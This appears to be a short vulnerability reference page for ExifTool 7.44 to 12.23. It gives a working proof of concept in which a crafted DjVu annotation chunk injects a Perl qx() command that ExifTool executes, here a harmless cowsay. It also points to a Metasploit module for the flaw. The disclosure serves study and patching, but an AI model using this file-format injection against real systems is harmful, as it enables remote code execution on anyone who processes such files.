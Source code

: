 <languages />

Berörd version
--------------

ExifTool 7.44 to 12.23

POC
---

      $ printf 'P1 1 1 0' > moo.pbm
       $ cjb2 moo.pbm moo.djvu
       $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
       $ exiftool moo.djvu > /dev/null
        _______
       < pwned >
        -------
               \   ^__^
                \  (oo)_______
                   (__)\       )\/\
                       ||----w |
                       ||     ||

    --
    Jakub Wilk

Metasploit
----------

<https://github.com/rapid7/metasploit-framework/pull/15185>

    exploit/unix/fileformat/exiftool_djvu_ant_perl_injection
